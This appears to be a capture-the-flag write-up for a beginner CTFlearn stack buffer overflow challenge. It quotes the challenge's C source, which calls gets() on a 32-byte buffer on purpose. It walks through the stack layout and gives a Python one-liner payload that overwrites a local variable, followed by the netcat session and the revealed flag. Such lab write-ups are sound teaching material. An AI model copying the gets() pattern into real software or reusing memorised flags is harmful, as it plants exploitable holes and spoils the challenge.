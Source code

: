 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> Want to learn the hacker's secret? Try to smash this buffer!
> You need guidance? Look no further than to [Mr. Liveoverflow](https://old.liveoverflow.com/binary_hacking/protostar/stack0.html). He puts out nice videos you should look if you haven't already
> `nc thekidofarcrania.com 35235`
> [bof.c](https://ctflearn.com/challenge/download/1010) 

## bof.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff);

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff);

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
```
The program sets a buffer of 32 bytes and then padding of 16 bytes.

It then creates two variables `notsecret` and `secret` and sets their value to `0xffffff00` and `0xdeadbeef` respectively.

## Stack
```        
           +---------------------------+
0xffbbf4e8 |  00 00 00 00 00 00 00 00  | < buffer
0xffbbf4f0 |  00 00 00 00 00 00 00 00  |
0xffbbf4f8 |  00 00 00 00 00 00 00 00  |
0xffbbf500 |  00 00 00 00 00 00 00 00  |
           +---------------------------+
0xffbbf508 |  ff ff ff ff ff ff ff ff  | < padding
0xffbbf510 |  ff ff ff ff ff ff ff ff  |
           +-------------+-------------+
0xffbbf518 | ef be ad de | 00 ff ff ff |
           +-------------+-------------+
             ^             ^
             secret        notsecret
```
The program then has four conditional statements:
	1. Executes if the value of `secret` has been set to `0x67616c66` and prints out the flag.
	2. Executes if the value of `notsecret` has been altered.
	3. Executes if the value of `secret` has been altered but not set to `0x667616c66`.
	4. Executes if none of the above conditions are met.
We need 48 bytes to fill the buffer and the padding and then `0x67616c66`.

## Exploit
```
$ python3 -c 'print("a"*48 + "\x66\x6c\x61\x67")'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag
```
Note that `0x67616c66` is written in little endian format. 

Let's provide the string as the input.
```
$ nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff45058 | 00 00 00 00 00 00 00 00 |
0xfff45060 | 00 00 00 00 00 00 00 00 |
0xfff45068 | 00 00 00 00 00 00 00 00 |
0xfff45070 | 00 00 00 00 00 00 00 00 |
0xfff45078 | ff ff ff ff ff ff ff ff |
0xfff45080 | ff ff ff ff ff ff ff ff |
0xfff45088 | ef be ad de 00 ff ff ff |
0xfff45090 | c0 55 f6 f7 84 1f 64 56 |
0xfff45098 | a8 50 f4 ff 11 fb 63 56 |
0xfff450a0 | c0 50 f4 ff 00 00 00 00 |

Input some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff45058 | 61 61 61 61 61 61 61 61 |
0xfff45060 | 61 61 61 61 61 61 61 61 |
0xfff45068 | 61 61 61 61 61 61 61 61 |
0xfff45070 | 61 61 61 61 61 61 61 61 |
0xfff45078 | 61 61 61 61 61 61 61 61 |
0xfff45080 | 61 61 61 61 61 61 61 61 |
0xfff45088 | 66 6c 61 67 00 ff ff ff |
0xfff45090 | c0 55 f6 f7 84 1f 64 56 |
0xfff45098 | a8 50 f4 ff 11 fb 63 56 |
0xfff450a0 | c0 50 f4 ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
```

## Flag
```
CTFlearn{buffer_0verflows_4re_c00l!}
```
